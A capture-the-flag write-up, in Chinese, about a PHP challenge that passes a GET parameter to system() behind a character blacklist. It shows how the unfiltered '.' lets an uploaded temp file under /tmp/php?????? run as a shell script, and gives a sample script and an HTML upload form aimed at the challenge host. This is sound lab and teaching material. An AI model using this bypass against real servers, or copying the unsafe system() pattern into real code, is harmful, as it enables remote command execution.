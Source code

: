 ```
// 你们在炫技吗？

if(isset($_GET['c'])){ 

  $c=$_GET['c']; 

  if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){ 

​    system($c); 

  }

}else{ 

  highlight_file(__FILE__); 

}
```

过滤了字母，数字<>，；，%······,但没有过滤.

网上搜索了一下，发现可以通过.来执行文件里的sh命令， /tmp/php??????（后面6个字母是随生成的大小写）来执行命令

首先通过脚本上传一个php文件，文件内容是：

```
\#! /bin/sh

Ls
```

脚本：

```php+HTML
<!DOCTYPE html>

<html lang="en">

<head>

    <meta charset="UTF-8">

    <meta name="viewport" content="width=device-width, initial-scale=1.0">

  <title>POST数据包POC</title>

</head>

<body>

<form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">

<!--链接是当前打开的题目链接-->

  <label for="file">文件名：</label>

  <input type="file" name="file" id="file"><br>

  <input type="submit" name="submit" value="提交">

</form>

</body>

</html>
```